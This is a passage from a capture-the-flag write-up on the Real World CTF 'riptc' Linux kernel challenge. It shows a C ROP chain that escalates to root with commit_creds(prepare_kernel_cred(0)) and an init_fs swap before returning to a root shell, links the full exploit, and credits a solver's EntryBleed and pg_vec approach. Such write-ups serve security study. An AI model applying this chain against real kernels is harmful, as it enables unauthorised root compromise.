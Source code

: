```c

    *rop++ = kernel_offset + 0xffffffff810b99e1; // pop rdi ; ret
    *rop++ = 0;
    *rop++ = kernel_offset + 0xffffffff811bb740; // prepare_kernel_cred

    *rop++ = kernel_offset + 0xffffffff8108ef2b; // pop rcx ; ret
    *rop++ = 0;
    *rop++ = kernel_offset + 0xffffffff82068a2b; // mov rdi, rax ; rep movsq qword ptr [rdi], qword ptr [rsi] ; jmp 0xffffffff82404c80
    *rop++ = kernel_offset + 0xffffffff811bb490; // commit_creds

    *rop++ = kernel_offset + 0xffffffff810b99e1; // pop rdi ; ret
    *rop++ = kernel_offset + 0xffffffff837b1f20; // &init_fs
    *rop++ = kernel_offset + 0xffffffff8144b900; // copy_fs_struct
    *rop++ = kernel_offset + 0xffffffff811d9b0c; // push rax ; pop rbx ; jmp 0xffffffff82404c80

    *rop++ = kernel_offset + 0xffffffff810b99e1; // pop rdi ; ret
    *rop++ = getpid();
    *rop++ = kernel_offset + 0xffffffff811b1e60; // find_task_by_vpid

    *rop++ = kernel_offset + 0xffffffff8108ef2b; // pop rcx ; ret
    *rop++ = 0x828;
    *rop++ = kernel_offset + 0xffffffff810705fe; // add rax, rcx ; jmp 0xffffffff82404c80
    *rop++ = kernel_offset + 0xffffffff816ac7a4; // mov qword ptr [rax], rbx ; add rsp, 0x10 ; xor eax, eax ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; jmp 0xffffffff82404c80
    rop += 8;

    *rop++ = kernel_offset + 0xffffffff82201146; // swapgs_restore_regs_and_return_to_usermode first mov
    *rop++ = 0;
    *rop++ = 0;
    *rop++ = (uint64_t)&get_root_shell;
    *rop++ = usr_cs;
    *rop++ = usr_rflags;
    *rop++ = usr_rsp;
    *rop++ = usr_ss;
```

The final exploit code takes less than half a minute, with a success rate close to 100%. The complete exploit code can be seen at: <https://github.com/Larryxi/rwctf-6th-riptc>.

![](https://image.baidu.com/search/down?url=https://wx1.sinaimg.cn/large/ee2fecafly1hme1hqcdbqj20u01hbn71.jpg)

# 0x04 Conclusion

In this competition, [@N1ghtu](https://github.com/N1ghtu) managed to solve the challenge in just one day, and it was the only solution in this competition. This demonstrates his daily accumulation and strong output. Specifically, the solution used [EntryBleed](https://www.willsroot.io/2022/12/entrybleed.html) to leak kernel addresses, combined with the features of elastic object pg_vec (which is a dynamically generated heap address array), perfectly solving the issue of 2-level reference. The heap content is fully [user-controllable](https://vul.360.net/archives/391), and the challenge was smoothly and effortlessly exploited.
